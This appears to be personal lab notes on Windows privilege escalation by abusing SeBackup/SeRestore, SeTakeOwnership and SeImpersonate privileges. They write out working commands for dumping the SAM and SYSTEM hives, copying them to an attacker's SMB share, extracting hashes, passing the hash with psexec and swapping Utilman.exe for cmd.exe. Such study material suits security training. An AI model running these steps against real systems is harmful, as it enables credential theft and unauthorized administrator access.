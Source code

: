 ``````
```
Abusing Dangerous Privileges
whoami /priv
https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants
https://github.com/gtworek/Priv2Admin
```
SeBackup /SeRestore	
``````
/* allow users to read and write to any file in the system, ignoring any DACL in place. The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges */
//for now, copying SAM and SYSTEM registry hives to obtain the local administrator’s password’s hash
//check for SeChangeNotifyPrivilege: Enabled (for bypassing traverse checking)
On Windows Machine
reg save hklm\system C:\Users\<username>\system.hive
reg save hklm\sam C:\Users\<username>\sam.hive
On Kali
mkdir share
python3 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
On Windows machine
copy C:\Users\<username>\sam.hive \\<attacker-ip>\public\
copy C:\Users\<username>\system.hive \\<attacker-ip>\public\ 
On Kali
python3 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
//perform pass the hash
python3 /opt/impacket/examples/psexec.py -hashes <hash> administrator@<ip-address>
``````
SeTakeOwnership
``````
//run cmd as admin
whoami /priv
//check for SeTakeOwnership
//abusing utilman.exe which runs with SYSTEM privileges
takeown /f C:\Windows\System32\Utilman.exe
icacls C:\Windows\System32\Utilman.exe /grant <username>:F
copy cmd.exe utilman.exe
//lock the windows session and use ease of access for getting nt/authority level cmd shell
``````
SeImpersonate/ SeAssignPrimaryToken
``````
These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.
Impersonation is easily understood when you think about how an FTP server works. The FTP server must restrict users to only access the files they should be allowed to see.
As attackers, if we manage to take control of a process with SeImpersonate or SeAssignPrimaryToken privileges, we can impersonate any user connecting and authenticating to that process.
In Windows systems, you will find that the LOCAL SERVICE and NETWORK SERVICE ACCOUNTS already have such privileges. Since these accounts are used to spawn services using restricted accounts, it makes sense to allow them to impersonate connecting users if the service needs. Internet Information Services (IIS) will also create a similar default account called "iis apppool\defaultapppool" for web applications.
To elevate privileges using such accounts, an attacker needs the following: 1. To spawn a process so that users can connect and authenticate to it for impersonation to occur. 2. Find a way to force privileged users to connect and authenticate to the spawned malicious process.
The RogueWinRM exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges. Port 5985 is typically used for the WinRM service, which is simply a port that exposes a Powershell console to be used remotely through the network. Think of it like SSH, but using Powershell.
